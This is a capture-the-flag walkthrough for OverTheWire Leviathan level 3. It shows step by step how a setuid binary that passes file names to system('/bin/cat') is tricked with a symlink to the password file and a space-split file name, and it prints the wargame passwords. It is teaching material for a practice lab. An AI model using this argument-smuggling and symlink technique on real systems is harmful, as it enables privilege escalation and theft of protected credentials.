 # 🐉 OverTheWire Leviathan CTF – Level 3  

## 🌐 **Challenge Description**  
Leviathan is a Linux-based wargame focused on basic Unix commands and privilege escalation.  
👉 Levels can be accessed via SSH on port **2223**.  

---

## 🎯 **Goal**  
- Exploit a symbolic link vulnerability to read the password for the next level.  

---

## 🌊 **Level 3 Details**  
| **Level** | **Username** | **Password** | **Command to Login** |
|:---------|:-------------|:------------|---------------------|
| Level 3  | leviathan2   | NsN1HwFoyN   | `ssh leviathan2@leviathan.labs.overthewire.org -p 2223` |

---

## 🚀 **Solution**  

### **Step 1: Connect to the Server**  
Use SSH to connect to the Leviathan server:  

```bash
ssh leviathan2@leviathan.labs.overthewire.org -p 2223
```

- **Username:** `leviathan2`  
- **Password:** `NsN1HwFoyN`  

👉 SSH allows us to securely connect to the server using port **2223**.  

---

### **Step 2: List All Files**  
Once logged in, list all files (including hidden ones):  

```bash
ls -la
```

**Output Example:**

![ls-la](https://github.com/user-attachments/assets/9f28f3fc-4f69-476b-9e9d-feb9d0ed2baa)


We can see a file named **printfile** — this is most likely the key to solving the challenge.  

---

### **Step 3: Execute the Binary**  
Try running the `printfile` binary:  

```bash
./printfile
```

Output:
```bash
Usage: ./printfile <file_to_print>
```

The program expects a file as input.  

---

### **Step 4: Test with a File You Have Access To**  
Try printing a file that you have permission to read:  

```bash
./printfile .bash_logout
```

✅ **Explanation:**  
- The binary is using a command like `cat` internally to print the contents of the file.  

---

### **Step 5: Analyze the Binary Using `ltrace`**  
Use `ltrace` to see which system calls are being used:  

```bash
ltrace ./printfile .bash_logout
```

**Output Example:**

![ltrace](https://github.com/user-attachments/assets/eb4c6f1f-1215-413a-96d4-986a2f0efa03)


✅ **Explanation:**  
- `system("/bin/cat .bash_logout")` → Calls the `cat` command to display the file.  
- Since `cat` is called directly, we can try a **symlink attack** to trick the program into reading the password file.  

---

### **Step 6: Create a Symbolic Link**  
We will create a symlink to the password file:  

1. Create a directory in `/tmp`:
```bash
mktemp -d
```

2. Create a symbolic link to the target file:
```bash
ln -s /etc/leviathan_pass/leviathan3 /tmp/tmp.LqMBlBFleI/test
```

👉 `ln -s` → Creates a symbolic link from `test` to `/etc/leviathan_pass/leviathan3`.  

3. List files to confirm the symlink:
```bash
ls -la /tmp/tmp.LqMBlBFleI/
```

4. Give full permissions to the directory:
```bash
chmod 777 /tmp/tmp.LqMBlBFleI/
```

---

### **Step 7: Bypass the Space Limitation**  
Create a fake filename with a space:  

```bash
touch "/tmp/tmp.LqMBlBFleI/test file.txt"
```

The program will try to read `file.txt`, but the actual file will be `test` (the symlink).  

---

### **Step 8: Execute the Binary with the Fake File**  
Run the binary and pass the fake filename:  

```bash
./printfile "/tmp/tmp.LqMBlBFleI/test file.txt"
```

**Output Example:**

![Password](https://github.com/user-attachments/assets/54331be1-f63f-499b-a9ae-f40ab648835f)


🎯 **Password extracted!**  

---

## ✅ **Password for Leviathan Level 3**  
```bash
f0n8h2iWLP
```

---

## 🖼️ **Screenshots**  
| Step | Screenshot |  
|------|------------|  
| Step 5 – Using `ltrace` | ![ltrace](https://github.com/user-attachments/assets/eb4c6f1f-1215-413a-96d4-986a2f0efa03) |  
| Step 8 – Symlink Attack | ![Password](https://github.com/user-attachments/assets/54331be1-f63f-499b-a9ae-f40ab648835f) |  

---

## 💡 **Lessons Learned**  
✔️ **Command Injection:** The binary calls `/bin/cat` without sanitizing input.  
✔️ **Symlink Attack:** Creating a symbolic link can trick the program into reading sensitive files.  
✔️ **Privilege Escalation:** Misconfigured file access can lead to information leaks.  

---

## 🎯 **Next Level**  
Use the password to access **Leviathan Level 4**:  
👉 [http://leviathan.labs.overthewire.org](http://leviathan.labs.overthewire.org)  

---
